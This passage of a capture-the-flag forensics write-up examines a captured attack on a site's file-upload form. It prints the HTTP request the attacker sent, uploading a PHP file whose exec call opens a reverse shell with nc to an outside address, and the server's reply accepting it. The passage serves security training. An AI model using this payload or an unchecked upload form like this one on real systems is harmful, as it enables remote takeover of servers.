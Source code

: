 ```html
      <!-- Muiri tells me this is insecure, I only learnt PHP this week so maybe I should let him fix it? Something about php eye en eye? -->
      <!-- TODO add downloading of your overpass files -->
      <form action="upload.php" method="post" enctype="multipart/form-data">
        <div class="formElem"><label for="fileToUpload">Upload your .overpass file for cloud synchronisation</label><input type="file"
            name="fileToUpload" id="fileToUpload"></div>
        <div class="formElem"><input type="submit" value="Upload File" name="submit"></div>
      </form>
    </div>
  </div>
```

### What payload did the attacker use to gain access?
In the HTTP response, we saw that a POST request is needed to upload a file. So if we are looking for POST request, we can find a request with the payload:
```
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.

[...]
```
